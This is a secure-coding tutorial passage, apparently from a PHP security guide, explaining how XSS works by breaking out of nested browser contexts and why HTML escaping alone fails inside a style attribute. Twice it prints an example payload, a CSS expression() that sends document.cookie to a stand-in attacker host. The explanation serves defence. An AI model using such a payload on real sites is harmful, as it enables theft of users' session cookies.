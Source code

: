 Cross-Site Scripting And Injecting Context
==========================================

An XSS attack is successful when it can inject Context. The term "Context" relates to how browsers interpret the content of a HTML document. Browsers recognise a number of key Contexts including: HTML Body, HTML Attribute, Javascript, URI and CSS.

The goal of an attacker is to take data destined for one of these Contexts and make browser interpret it as another Context. For example, consider the following:

.. code-block:: php

    <div style="background:<?php echo $colour ?>;">

In the above, $colour is populated from a database of user preferances which influence the background colour used for a block of text. The value is injected into a CSS Context which is a child of a HTML Attribute Context, i.e. we're sticking some CSS into a style attribute. It may seem unimportant to get so hooked up on Context but consider this:

.. code-block:: php

    $colour = "expression(document.write('<iframe src=http://evilattacker.com?cookie=' + document.cookie.escape() + ' height=0 width=0 />'))";

    <div style="background:<?php echo $colour ?>;">

If an attacker can successfully inject that "colour", they can inject a CSS expression which will execute the contained Javascript under Internet Explorer. In other words, the attacker was able to switch out of the current CSS Context by injecting a new Javascript Context.

Now, I was very careless with the above example because I know some readers will be desperate to get to the point of using escaping. So let's do that now.

.. code-block:: php

    $colour = "expression(document.write('<iframe src=http://evilattacker.com?cookie=' + document.cookie.escape() + ' height=0 width=0 />'))";

    <div style="background:<?php echo htmlspecialchars($colour, ENT_QUOTES, 'UTF-8') ?>;">

If you checked this with Internet Explorer, you'd quickly realise something is seriously wrong. After using htmlspecialchars() to escape $colour, the XSS attack is still working!

This is the importance of understanding Context correctly. Each Context requires a different method of escaping because each Context has different special characters and different escaping needs. You cannot just throw htmlspecialchars() and htmlentities() at everything and pray that your web application is safe.

What went wrong in the above is that the browser will always unesape HTML Attributes before interpreting the context. We ignored the fact there were TWO Contexts to escape for. The unescaped HTML Attribute data is the exact same CSS as the unescaped example would have rendered anyway.

What we should have done was CSS escaped the $colour variable and only then HTML escaped it. This would have ensured that the $colour value was converted into a properly escaped CSS literal string by escaping the brackets, quotes, spaces, and other characters which allowed the expression() to be injected. By not recognising that our attribute encompassed two Contexts, we escaped it as if it was only one: a HTML Attribute. A common mistake to make.

The lesson here is that Context matters. In an XSS attack, the attacker will always try to jump out of the current Context into another one where Javascript can be executed. If you can identify all the Contexts in your HTML output, bearing in mind their nestable nature, then you're ten steps closer to successfully defending your web application from Cross-Site Scripting.

Let's take another quick example:

.. code-block:: html

    <a href="http://www.example.com">Example.com</a>

Omitting untrusted input for the moment, the above can be dissected as follows:

1. There is a URL Context, i.e. the value of the href attribute.
2. There is a HTML Attribute Context, i.e. it parents the URL Context.
3. There is a HTML Body Context. i.e. the text between the <a> tags.

That's three different Contexts implying that up to three different escaping strategies would be required if the data was determined by untrusted data. We'll look at escaping as a defense against XSS in far more detail in the next section.